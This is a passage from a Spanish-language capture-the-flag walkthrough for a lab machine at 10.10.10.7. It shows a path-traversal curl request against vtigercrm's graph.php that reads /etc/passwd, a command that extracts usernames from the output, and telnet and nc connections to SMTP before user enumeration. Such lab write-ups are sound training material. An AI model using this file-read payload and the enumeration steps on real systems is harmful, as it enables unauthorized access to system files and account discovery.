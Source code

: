 ```shell
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
spamfilter:x:500:500::/home/spamfilter:/bin/bash
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
xfs:x:43:43:X Font Server:/etc/X11/fs:/sbin/nologin
fanis:x:501:501::/home/fanis:/bin/bash
Sorry! Attempt to access restricted file.
```

Filtremos los nombres de usuario y guardémoslos en un archivo:

```shell
❯ curl -sk "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action" | grep bash | cut -d ':' -f 1 > users.txt
❯ cat users.txt
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: users.txt
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ root
   2   │ mysql
   3   │ cyrus
   4   │ asterisk
   5   │ spamfilter
   6   │ fanis
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

# SMTP - Port TCP 25

Podemos utilizar telnet para conectarnos a SMTP:

```shell
❯ telnet 10.10.10.7 25
Trying 10.10.10.7...
Connected to 10.10.10.7.
Escape character is '^]'.
220 beep.localdomain ESMTP Postfix # < wait for this
```

Alternativamente, podemos utilizar nc:

```shell
❯ nc -nv 10.10.10.7 25
(UNKNOWN) [10.10.10.7] 25 (smtp) open
220 beep.localdomain ESMTP Postfix # < wait for this
```

### SMTP User Enumeration

Podemos validar que los usuarios que tienen un `email` en SMTP:
